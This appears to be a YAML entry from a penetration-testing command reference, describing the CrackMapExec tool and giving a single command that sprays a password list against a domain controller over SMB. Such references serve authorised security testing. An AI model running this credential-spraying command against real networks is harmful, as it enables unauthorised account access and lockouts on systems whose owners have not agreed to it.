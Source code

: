 ```yaml
---
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will perform password/user spraying over SMB against the domain controller.

  Command Reference:

  	Domain Controller IP: 10.10.10.1

  	Username List: users.txt

  	Password: password123 /password.txt

command: |
  crackmapexec smb 10.10.10.1 -u users.txt -p password123
items:
  - Username
  - Password
services:
  - SMB
attack_types:
  - Exploitation
  - Enumeration
OS:
  - Linux
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```


